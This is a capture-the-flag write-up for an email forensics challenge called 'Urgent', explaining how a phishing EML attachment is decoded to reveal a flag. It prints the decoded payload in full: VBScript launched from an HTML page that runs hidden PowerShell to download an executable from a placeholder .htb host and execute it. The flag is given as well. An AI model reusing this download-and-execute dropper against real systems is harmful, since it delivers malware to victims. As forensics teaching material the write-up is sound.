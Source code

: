 ```yaml
---
title: "[Cyber Apoc '24] Urgent"
date: 2024-03-16T19:15:43+08:00
authors:
  - Kairos
tags:
  - Forensics
ctfs:
  - CyberApoc'24
---
```


# Urgent

This was an email forensics challenge where we are given an EML message file and are required to extract the flag from
it. The given file can be found [here](forensics_urgent.zip).

## Description

> In the midst of Cybercity's "Fray," a phishing attack targets its factions, sparking chaos.
> As they decode the email, cyber sleuths race to trace its source, under a tight deadline.
> Their mission: unmask the attacker and restore order to the city.
> In the neon-lit streets, the battle for cyber justice unfolds, determining the factions' destiny.

## Analysis

An EML file is a plaintext file that contains email messages and attachments. That being said, since the file is
plaintext, we can simply use any text editor to view its contents. Using VSC's syntax highlighting:

![EML file](eml.png)

Looking at it, we can see that the email contains two Base64 encoded strings. There is an attachment
named `onlineform.html`. If we were to convert both the Base64 strings, we would get the following:

![Base64](string1.png)

This looks like some sort of HTML code snippet, which I assume is simply the first email's content with the email's
formatting. There isn't much here :(

![Base64](string2.png)

This looks more interesting - it has some JavaScript code an obfuscated string. The `document.write(unescape())`
function in JS is used to dynamically write content to an HTML document, and `unescape()` is a function that decodes
URL-encoded characters. For instance, `%20` would be decoded to a space character.

## Getting the Flag

We can simply use a decoder to decode the obfuscated string. I used [CyberChef](https://gchq.github.io/CyberChef/) to
decode the string:

```html

<html>
<head>
    <title></title>
<body>
<script language="JavaScript" type="text/javascript">
    document.write(unescape('<html>
            < head >
            < title > > _ < /title>
    <center><h1>404 Not Found</h1></center>
    <script language="VBScript">
        Sub window_onload
        const impersonation = 3
        Const HIDDEN_WINDOW = 12
        Set Locator = CreateObject("WbemScripting.SWbemLocator")
        Set Service = Locator.ConnectServer()
        Service.Security_.ImpersonationLevel=impersonation
        Set objStartup = Service.Get("Win32_ProcessStartup")
        Set objConfig = objStartup.SpawnInstance_
        Set Process = Service.Get("Win32_Process")
        Error = Process.Create("cmd.exe /c powershell.exe -windowstyle hidden (New-Object
        System.Net.WebClient).DownloadFile('https://standunited.htb/online/forms/form1.exe','%appdata%\form1.exe');Start-Process
        '%appdata%\form1.exe';$flag='HTB{4n0th3r_d4y_4n0th3r_ph1shi1ng_4tt3mpT}", null, objConfig, intProcessID)
        window.close()
        end sub
</script>
</head>
</html>
'));
</script>
</body>
</html>
```

This code attempts to download an exe file from a remote server and executes it! Pretty interesting. But we also got the
flag :)